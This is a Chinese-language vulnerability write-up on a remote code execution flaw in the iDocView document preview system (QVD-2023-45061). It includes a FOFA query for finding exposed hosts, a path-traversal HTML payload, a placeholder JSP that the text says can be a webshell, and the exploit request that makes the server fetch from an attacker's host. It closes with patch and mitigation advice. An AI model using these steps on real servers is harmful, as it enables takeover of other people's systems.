 
# I Doc View 在线文档预览系统 RCE 漏洞 (QVD-2023-45061)

### 0x01 产品简介

  iDocView 是一个在线文档解析应用，旨在提供便捷的[文件查看](https://so.csdn.net/so/search?q=%E6%96%87%E4%BB%B6%E6%9F%A5%E7%9C%8B&spm=1001.2101.3001.7020)和编辑服务。

### 0x02 漏洞概述 

**漏洞成因**

本次漏洞出现在在线文档解析应用中的远程页面缓存功能。具体问题在于该应用未能对[用户输入](https://so.csdn.net/so/search?q=%E7%94%A8%E6%88%B7%E8%BE%93%E5%85%A5&spm=1001.2101.3001.7020)的 URL 进行充分的安全验证，从而导致存在安全隐患。攻击者可通过构造特殊的 URL，引诱应用下载恶意文件。

**利用特征**

攻击者利用该漏洞的关键在于使用具有远程页面缓存功能的接口，在参数中填写预先准备的包含恶意文件的 URL。此类请求能够绕过正常的安全检查，使得服务器下载并处理恶意内容。漏洞的触发会返回特定的响应状态和内容类型条件，攻击者可通过自动化脚本进行检测和利用。

**漏洞影响**

该漏洞的利用可能导致服务器被远程控制、敏感数据泄露等等。漏洞的存在不仅威胁到该[应用服务器](https://so.csdn.net/so/search?q=%E5%BA%94%E7%94%A8%E6%9C%8D%E5%8A%A1%E5%99%A8&spm=1001.2101.3001.7020)的安全性，还可能成为更广泛网络安全事件的触发点。建议受影响的用户尽快采取必要的安全措施，以防范潜在的安全风险。

### 0x03 影响范围

iDocView < 13.10.1\_20231115

### 0x04 复现环境

FOFA：title=="在线文档预览 - I Doc View"

![1f8800a1887f4998bdd1ccb3ecd6587e.png](assets/1700812556-96830dba9faba6f93f61b367e3e3169f.png)

### 0x05 漏洞复现 

VPS 上构造一个携带恶意 link\[href\]的 html 文件，里面的 link 指向你的恶意文件

构造 index.html

```http
<!DOCTYPE html>
<html lang="en">
<head>
    <title>test</title>
</head>
<body>
  <link href="/..\..\..\docview\test.jsp">
</body>
</html>
```

构造恶意文件

```perl
vi '..\..\..\docview\test.jsp'


<%out.print("test");%>      #可以是马子
```

python 开启一个 http 服务器，发送请求

```http
http://your-ip/html/2word?url=http://VPSip/index.html
```

![](assets/1700812556-650d044ae1818404906dae774325cf8b.png)

当两个请求都响应 200 时会下载一个 word 文件，表示利用成功 

![](assets/1700812556-6d47fef7ac24d3782567b50f1f0ebe0a.png) 验证

![](assets/1700812556-d5d6af0f6bb26045a2543a087e75818f.png)

GetShell

![](assets/1700812556-1dcd59165f97b71604303629dd94824a.png) ![](assets/1700812556-9e890f7534e25d10ad2ce39526707764.png) 

### 0x06 修复建议

目前官方已发布安全修复版本，受影响用户可以自行更新或者联系相关技术支持获取最新版本或补丁修复漏洞。

https://api.idocv.com

**缓解措施**

隔离该系统对外访问，仅允许受信任网络或者用户访问。

拦截受影响 Api 接口的请求访问。
